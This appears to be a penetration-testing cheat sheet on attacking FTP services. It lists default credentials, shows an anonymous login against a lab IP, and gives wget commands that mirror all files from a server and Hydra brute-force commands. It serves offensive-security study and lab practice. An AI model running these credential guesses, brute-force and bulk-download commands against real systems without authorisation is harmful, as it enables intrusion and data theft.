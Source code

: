 ```yaml
---
id: Exploitation
aliases: []
tags:
  - Networking/Services/FTP/Exploitation
links: "[[FTP]]"
---
```


# FTP Exploitation

## Common Credentials

```
anonymous : anonymous
_anonymous :
_ftp : ftp
admin : admin
administrator : administrator
root : root
ftpuser : ftpuser
test : test
```

## Anonymous Login

```sh
ftp <ip>
>anonymous
>anonymous
>binary # set transmission to binary instead of ASCII
>ascii # set transmission to ASCII instead of binary

```

Anonymous login example

```sh
ftp -p 10.129.42.253

Connected to 10.129.42.253.
220 (vsFTPd 3.0.3)
Name (10.129.42.253:user): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Download all files

```sh
wget -m ftp://anonymous:anonymous@<ip>
wget -m --no-passive ftp://anonymous:anonymous@<ip>
```

## Brute Force

Hydra

```sh
hydra -l {target_user} -P {password_list} <target_ip> ftp
hydra -L {users_list} -p {password} ftp://<ip>
```

## FTPBounce Attack

## Filezilla Server Vulnerability

___

# FTP Post-Exploitation

Download all files

```sh
wget -r --user="USERNAME" --password="PASSWORD" ftp://<server_address>/
```
